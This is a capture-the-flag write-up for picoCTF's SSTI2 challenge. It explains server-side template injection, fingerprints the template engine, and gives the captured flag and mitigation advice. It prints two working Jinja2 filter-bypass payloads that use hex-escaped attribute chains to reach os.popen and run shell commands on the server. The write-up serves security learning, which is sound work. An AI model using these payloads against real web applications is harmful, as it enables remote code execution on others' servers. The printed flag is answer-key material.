 # SSTI2

## Challenge
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

Additional details will be available after launching your challenge instance.


### Solve
**Flag:** `picoCTF{sst1_f1lt3r_byp4ss_63b833cd}`\
**SSTI** stands for *Server Side Template Injection*.\
It is a vulnerability where untrusted user input is fed into a server template engine, allowing the input to be evaluated as template code. In mild cases it leaks data; in severe cases it lets an attacker execute server-side code.\
This level explores the same.
- After launching the challenge instance, I was provided with a link.
- A website is given which will announce whatever I type into it!?
- And since the challenge name is SSTI2, it hints at a typical injecting problem.
- Used this image to determine the templating engine the site was using.

    - ${7*7} didn’t work
    - {{7*7}} works
    - {{7*’7'}} works
- Therefore, the engine used is either `Twig` or `Jinja2`
> Custom payload

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```


### New Learnings
**Templating Engines**
- They convert templates + data into HTML; different engines (Jinja, Twig, ERB) have different syntax and object models — fingerprinting the engine is the first step.

**Injections**
- SSTI happens when untrusted input is injected into a template and evaluated. What looks like text can become code executed on the server.

**Payloads**
- A payload is the little piece of input you send into a program or web app that’s designed to do something — test, probe, or exploit.

**Mitigation**
- Never render raw user input. Escape or sanitize inputs, use strict template sandboxes/whitelists, remove/limit dangerous globals, apply least privilege on server processes, and keep template libraries updated.


### Resources
- [Article by tobias are](https://medium.com/@vgqxjb/ssti2-picoctf-4caa7ac497c5)
- [onsecurity.io blog](https://onsecurity.io/article/server-side-template-injection-with-jinja2/)
